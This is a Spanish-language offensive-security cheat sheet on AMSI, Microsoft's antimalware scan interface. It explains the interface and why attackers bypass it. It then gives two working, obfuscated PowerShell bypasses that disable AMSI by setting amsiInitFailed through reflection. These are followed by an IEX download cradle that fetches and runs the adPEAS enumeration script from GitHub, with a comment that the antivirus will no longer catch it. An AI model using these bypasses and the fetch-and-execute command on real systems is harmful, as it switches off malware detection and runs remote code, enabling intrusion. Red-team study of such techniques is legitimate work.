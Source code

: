 # AMSI

Tags: #AD #Windows #Powershell #AMSI #Evasion 

* [AMSI.fail](https://amsi.fail/)

AMSI (Antimalware Scan Interface) es una interfaz estándar desarrollada por Microsoft para que las soluciones antimalware de Windows puedan analizar contenido en busca de actividades maliciosas. Introducida con Windows 10, AMSI trabaja junto a otros componentes de seguridad, como Windows Defender, para ofrecer una capa adicional de protección.

De forma sencilla, AMSI permite que aplicaciones y servicios envíen contenido a un motor antimalware para ser evaluado antes de su ejecución, lo que resulta especialmente útil para analizar scripts en tiempo real. Es capaz de detectar y escanear scripts en lenguajes como PowerShell, VBScript o Ruby, incluso cuando están ofuscados.
## Por qué los ciberdelincuentes buscan evadir AMSI?

```bash 
AMSI (Antimalware Scan Interface) representa una barrera crítica para los atacantes debido a su capacidad para detectar comportamientos maliciosos en tiempo real, incluso antes de que el código se ejecute. Esto lo convierte en un objetivo prioritario para quienes intentan evadir la detección y garantizar el éxito de sus ataques, especialmente aquellos basados en scripts ofuscados o técnicas de ejecución en memoria.

- Detección en tiempo real: AMSI analiza el contenido justo antes de que se ejecute, bloqueando ataques antes de que se materialicen, lo que obliga a los ciberdelincuentes a evadir esta capa de seguridad para ejecutar su código malicioso.
    
- Análisis de scripts ofuscados: Aunque los atacantes ofuscan sus scripts para evitar las soluciones tradicionales, AMSI puede escanearlos tras ser desofuscados, cuando están en su forma original, lo que complica los intentos de ocultar intenciones maliciosas.
    
- Integración amplia: AMSI no se limita a analizar scripts; también puede escanear otros contenidos arbitrarios enviados por diversas aplicaciones y servicios, ampliando su alcance y reduciendo las posibilidades de éxito de un atacante.
    

Dada su eficacia, los ciberdelincuentes recurren a diversas técnicas para evadir AMSI, como:

- Cargar bibliotecas antiguas: Usar versiones anteriores de DLLs que no soporten AMSI para desactivar su funcionalidad.
- Manipulación de memoria: Alterar áreas de memoria relacionadas con AMSI para inutilizarlo.
- Ofuscación avanzada: Implementar métodos innovadores para intentar superar las capacidades de análisis de AMSI.
- Abusar de herramientas legítimas: Utilizar técnicas como _Living off the Land_ para ejecutar acciones maliciosas mediante herramientas legítimas que pueden eludir el escaneo o generar confianza.

La capacidad de AMSI para identificar amenazas en tiempo real lo convierte en un desafío constante para los atacantes, quienes buscan superarlo con técnicas cada vez más sofisticadas.
```

Los siguientes scripts los podemos ejecutar en la consola de  **Powershell**  antes de  ejecutar un comando que descargue un binario que detecte el antivirus como lo puede ser **adPeas**, etc... 

```powershell 
❯ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
# Ya no nos lo detectara el Antivirus 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

## Otra alternativa para el ByPass:

```Powershell 
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```